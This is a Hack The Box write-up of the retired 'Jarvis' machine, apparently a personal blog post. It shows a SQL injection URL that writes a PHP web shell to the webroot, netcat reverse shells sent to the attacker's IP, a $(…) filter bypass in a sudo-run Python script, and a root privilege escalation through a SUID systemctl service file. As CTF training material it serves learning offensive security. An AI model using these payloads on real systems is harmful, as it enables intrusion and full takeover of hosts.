


Note: This is my first HTB writeup, so opinions are more than welcome.

## Summary

Jarvis just retired today. Even though this is a medium box, I learned a lot from solving it, especially about `systemctl` and how I can abuse it to gain root privileges. Its IP address is `10.10.10.143` and I added it to `/etc/hosts` as `jarvis.htb` to make accessing the machine easier. Without further ado, let’s jump right in!

## Scanning & Web App Enumeration

I always make a quick ‘light’ scan with `nmap` so I can get to work quickly and a full one to see if there are any uncommon open ports. In this case, the ligh one was enough to get the initial foothold:


root@fury-battlestation:~/htb/blog/jarvis# nmap -sV -O jarvis.htb -oN scan.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-05 08:57 EST
Nmap scan report for jarvis.htb (10.10.10.143)
Host is up (0.48s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.12 (94%), Linux 3.13 (94%), Linux 3.16 (94%), Linux 3.8 - 3.11 (94%), Linux 4.8 (94%), Linux 4.4 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 153.16 seconds
root@fury-battlestation:~/htb/blog/jarvis# 



OpenSSH seemed to be up-to-date, so I decided to check port 80 for vulnerabilities.

The site looked like it was custom-made, so I decided to explore it more. After playing around for a bit, I discovered an interesting URL:


http://jarvis.htb/room.php?cod=1



Do you see the LFI? I did, too, but it turns out that was an SQL injection 🙂 A simple, working payload could be


http://jarvis.htb/room.php?cod=1;%20--



I wanted to do the SQL injection manually, so I started ‘exhaustively searching’ for the number of columns. The `SELECT` statement worked with 7 entries, so the table probably had the same number of columns:


http://jarvis.htb/room.php?cod=7%20UNION%20SELECT%201,2,3,4,5,6,7;%20--



Now that we have a working SQL `SELECT` statement, we can insert anything in the results. I wanted to write a simple PHP shell in a file on the server and then use it to get a reverse shell. I tried writing using the `INTO OUTFILE` statement, and it worked. Also, since the target is most probably running Linux, I tried to write the file in the default webroot directory (`/var/www/html`):


http://jarvis.htb/room.php?cod=7%20UNION%20SELECT%201,%27%3C?php%20echo%20shell_exec($_GET[%22cmd%22]);?%3E%27,3,4,5,6,7%20INTO%20OUTFILE%20%27/var/www/html/yakuhito_shell.php%27%20;%20--



There was no output, which is normal because the SQL engine saves the query output to a file instead of passing it on to PHP. We can test that the query worked by trying to run a simple command on the server (`whoami`):


http://jarvis.htb/yakuhito_shell.php?cmd=whoami



One thing that I learned from the OSCP course is to only value reverse shells, so I spawned one using netcat:


http://jarvis.htb/yakuhito_shell.php?cmd=nc%2010.10.15.147%20443%20-e%20/bin/bash



It’s also a good idea to upgrade the shell to a tty:


root@fury-battlestation:~/htb/blog/jarvis# nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.15.147] from (UNKNOWN) [10.10.10.143] 50616
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@jarvis:/var/www/html$ 



## Exploiting simpler.py

Once I had a shell, I starter enumerating the machine. One thing that seemed odd was the `sudo` permission:


www-data@jarvis:/var/www/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
www-data@jarvis:/var/www/html$



The `www-data` user is allowed to run `/var/www/Admin-Utilities/simpler.py` as `pepper` without providing any password. I thought this might be the path to privesc, and I was right! I first tried to read the source code of the script:


www-data@jarvis:/var/www/html$ cat /var/www/Admin-Utilities/simpler.py
cat /var/www/Admin-Utilities/simpler.py
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message=;;;
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    ;;;
    print(message)

def show_header():
    print(;;;***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************
;;;)



What caught my attention was the exec_ping function, because it uses `os.system()` to call `ping`, which is VERY unsafe:


def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)



The function is called when the program is being run with the `-p` switch. This means that we can execute any command given that we bypass the filter (our payload shouldn’t contains any character present in the `forbidden` array).

My solution was pretty straightforward, but I’m not sure it was the intended one. We can use `$(command)` to execute a command, however, I found it easier to store the command into a file and execute it as a script, as `/` is not a blacklisted character.


www-data@jarvis:/var/www/html$ echo 'nc 10.10.15.147 444 -e /bin/bash' > /tmp/yakuhito.sh
<c 10.10.15.147 444 -e /bin/bash; > /tmp/yakuhito.sh
www-data@jarvis:/var/www/html$ chmod +x /tmp/yakuhito.sh
chmod +x /tmp/yakuhito.sh
www-data@jarvis:/var/www/html$ echo '$(/tmp/yakuhito.sh)'
echo '$(/tmp/yakuhito.sh)'
$(/tmp/yakuhito.sh)
www-data@jarvis:/var/www/html$ echo '$(/tmp/yakuhito.sh)' | sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
<do -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP:



The program hangs because the script needs to terminate before the ping command is executed. A reverse shell connected on port 444, so I added my SSH public key in the `~/.ssh/authorized_keys` file and connected using SSH:


root@fury-battlestation:~/htb/blog/jarvis# ssh pepper@jarvis.htb
Linux jarvis 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Nov  5 11:00:02 2019 from 10.10.15.147
pepper@jarvis:~$ wc user.txt 
 1  1 33 user.txt
pepper@jarvis:~$



We got user! I won’t display the file’s contents, but I can tell you that the proof starts with `2a` 🙂

## Exploiting systemctl

After getting the user flag, I started enumerating the machine again. While listing the SUID binaries, I noticed `systemctl` on the list:


pepper@jarvis:~$ find / -perm -4000 2> /dev/null
/bin/fusermount
/bin/mount
/bin/ping
/bin/systemctl
/bin/umount
/bin/su
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
pepper@jarvis:~$



This is odd because `systemctl` should be ran as the current user only. Instead, we can run it as its owner, `root`:


pepper@jarvis:~$ ls -la /bin/systemctl
-rwsr-x--- 1 root pepper 174520 Feb 17  2019 /bin/systemctl
pepper@jarvis:~$



`systemctl` is used to turn Linux services on and off. The basic idea of exploitation is to create a new service (which is just a file, as you’ll see in a moment) and start it. Because `systemctl` is running as `root`, the service will be started as `root`.

_Note: I didn’t come up with this method myself; I found it on_ [_gtfobins_](https://gtfobins.github.io/gtfobins/systemctl/)_._

First, I created a service file using the following commands:


pepper@jarvis:~$ echo '[Service]' > yakuhito.service
pepper@jarvis:~$ echo 'Type=oneshot' >> yakuhito.service
pepper@jarvis:~$ echo 'ExecStart=/bin/bash /tmp/yakuhito.sh' >> yakuhito.service
pepper@jarvis:~$ echo '[Install]' >> yakuhito.service
pepper@jarvis:~$ echo 'WantedBy=multi-user.target' >> yakuhito.service



I reused the `/tmp/yakuhito.sh` script, because I was now controlling the box via an SSH session and port 444 wasn’t used anymore. The next step was to enable (or install) the service:


pepper@jarvis:~$ systemctl enable /home/pepper/yakuhito.service --now
Created symlink /etc/systemd/system/multi-user.target.wants/yakuhito.service → /home/pepper/yakuhito.service.
Created symlink /etc/systemd/system/yakuhito.service → /home/pepper/yakuhito.service.



The shell hung and a reverse shell connected on port 444.


root@fury-battlestation:~/htb/blog/jarvis# nc -nvlp 444
listening on [any] 444 ...
connect to [10.10.14.140] from (UNKNOWN) [10.10.10.143] 49288
python -c 'import pty; pty.spawn("/bin/bash")'
root@jarvis:/# whoami && id && hostname
whoami && id && hostname
root
uid=0(root) gid=0(root) groups=0(root)
jarvis
root@jarvis:/# wc /root/root.txt
wc /root/root.txt
 1  1 33 /root/root.txt
root@jarvis:/# 



Again, I will not put the entire flag here, but I will tell you that it starts with `d4` 😉

If you liked this post and want to support me, please [follow me on Twitter](https://twitter.com/yakuhito) 🙂

Until next time, hack the world.

yakuhito, over.

